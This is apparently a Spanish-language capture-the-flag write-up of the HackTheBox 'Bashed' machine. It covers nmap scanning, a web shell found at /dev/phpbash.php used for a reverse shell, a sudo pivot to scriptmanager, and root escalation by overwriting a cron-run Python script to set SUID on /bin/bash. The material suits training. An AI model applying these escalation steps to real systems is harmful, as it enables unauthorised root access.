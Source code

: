 ```yaml
---
layout: post
title: "Write Up Bashed. "
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Linux,HTB,Mobile,Apache,Web,Common-Applications,Reconnaissance,Web-Site-Structure-Discovery,SUDO,Scheduled-Job-Abuse,OS-Command-Injection,Code-Execution,eJPTv2,eWPT,eCPPTv2] 
image:
  path: /assets/img/bashed/Captura%20de%20pantalla%20(309).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000-sS -n -vvv -Pn 10.10.10.68 -oA allports
```


![list](/assets/img/bashed/A-2022-12-22-11-21-27.png){:.lead width="800" height="100" loading="lazy"}


***

### Services and Versions


```bash
nmap -p22,80 -sV -sC 10.10.10.68 -oN target
```
![list](/assets/img/bashed/A-2022-12-22-11-22-23.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb. 


![list](/assets/img/bashed/A-2022-12-22-11-22-09.png){:.lead width="800" height="100" loading="lazy"}


Si fuzzeamos rapidamente con nmap encontramos algunas rutas.


![list](/assets/img/bashed/A-2022-12-22-11-23-16.png){:.lead width="800" height="100" loading="lazy"}


Claro nos metemos en ruta /dev/y encontramos a un archivo phpbash.php, que lo que hace es que interpreta comados de bash porlo que podemos otorgarnos una reverse-shell.


![list](/assets/img/bashed/A-2022-12-22-11-31-42.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/bashed/A-2022-12-22-11-41-55.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Debemos estar a la escucha con netcat en el puerto 443 y la flag de bajos privileguios en el la carpeta oculta del usuario `/home/.arrexel`.


***
## Explotation and Escalation Privileges


Siempre es bueno ejecutar `LimEnum` Y `pspy`, para que podamos enumerar más vulnerabilidades que permitan elevar nuestros privilegios al usuario "root".


Hacemos un `sudo -l` y el usuario scriptmanager puede ejecutar cualquier comando.


```shell
sudo -u scriptmanager bash
```


{:.note}
Nos estamos dando una shell con el usuario `scriptmanager`.


En la ruta `/scripts` hay un archivo `test.txt` y `test.py` , lo que hacemos es  borrar todo el contenido de `test.py` y lo remplazamos por lo siguiente:


![list](/assets/img/bashed/A-2022-12-22-11-53-15.png){:.lead width="800" height="100" loading="lazy"}


```shell
import os
os.system("chmod u+s /bin/bash")
```


{:.note}
Y solo esperamos unos segundos ejecutamos el comando `bash -p` y ya somos root y buscamos la flag en su escritorio.


***

```shell
🎉 Felicitaciones ya has comprometido Bashed de HackTheBox 🎉
```
{:.centered}

***
Back to [Certification eJPTv2](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eWPT](2023-07-04-Road-to-eWPT.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eCPPTv2](2023-07-06-Road-to-eCPPTv2.md){:.heading.flip-title}
{:.read-more}
